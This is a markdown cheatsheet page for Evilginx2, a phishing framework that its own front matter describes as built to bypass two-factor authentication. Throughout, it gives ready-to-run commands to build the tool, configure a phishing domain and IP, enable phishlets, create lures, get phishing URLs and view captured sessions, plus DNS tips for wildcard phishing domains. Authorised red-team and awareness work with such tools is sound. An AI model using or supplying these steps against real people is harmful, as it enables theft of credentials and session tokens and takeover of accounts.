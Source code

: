 ```yaml
---
title: Evilginx2
slug: evilginx2
description: Advanced phishing framework for bypassing 2FA.
categories: ["Social Engineering", "Exploitation"]
bgColor: "bg-red-100"
textColor: "text-red-900"
top: true
---
```


## 🎣 Evilginx2 Cheatsheet {.cols-2}

### ⚙️ Setup

| Command                                               | Description                                 |
| ----------------------------------------------------- | ------------------------------------------- |
| `git clone https://github.com/kgretzky/evilginx2.git` | Clone Evilginx2 source code                 |
| `cd evilginx2 && make && sudo make install`           | Build and install Evilginx2                 |
| `evilginx -p ./phishlets -t ./templates`              | Start Evilginx2 with custom paths           |
| `evilginx -developer`                                 | Run in developer mode with self-signed cert |
| `evilginx -debug`                                     | Enable debug output                         |

### 🌐 Domain Configuration

| Command                        | Description                  |
| ------------------------------ | ---------------------------- |
| `config domain yourdomain.com` | Set phishing domain          |
| `config ip <your_server_ip>`   | Set server public IP address |

### 🎭 Phishlet Management

| Command                                                | Description                        |
| ------------------------------------------------------ | ---------------------------------- |
| `phishlets`                                            | List available phishlets           |
| `phishlets enable <name>`                              | Enable a specific phishlet         |
| `phishlets disable <name>`                             | Disable a specific phishlet        |
| `phishlets hostname <name> <subdomain.yourdomain.com>` | Assign hostname to phishlet        |
| `phishlets hide <name>`                                | Hide a phishlet from lure creation |
| `phishlets unhide <name>`                              | Unhide a phishlet                  |

### 🪤 Lure Management

| Command                                   | Description                  |
| ----------------------------------------- | ---------------------------- |
| `lures create <phishlet_name>`            | Create a new lure            |
| `lures edit <lure_id> redirect_url <url>` | Set redirect URL after login |
| `lures get-url <lure_id>`                 | Show phishing URL            |
| `lures delete <lure_id>`                  | Delete a lure                |
| `lures list`                              | List all configured lures    |

### 🕵️ Session Monitoring

| Command         | Description                        |
| --------------- | ---------------------------------- |
| `sessions`      | List all captured sessions         |
| `sessions <id>` | View details of a specific session |

### 🧪 Testing & Output {.row-span-2}

| Command                                  | Description                    |
| ---------------------------------------- | ------------------------------ |
| `evilginx -p ./phishlets -t ./templates` | Use custom directories         |
| `evilginx -debug`                        | Show debug logs                |
| `evilginx -q`                            | Run quietly (no banner/output) |

---

✅ **Tip:** Use DNS A records for subdomains and CNAMEs for wildcard phishing domains. Disable other services using ports 80, 443, and 53.

### 🔗 Resources

- [Evilginx2 GitHub](https://github.com/kgretzky/evilginx2)
- [Documentation](https://breakdev.org/evilginx-2-next-generation-of-phishing-2fa-tokens/)
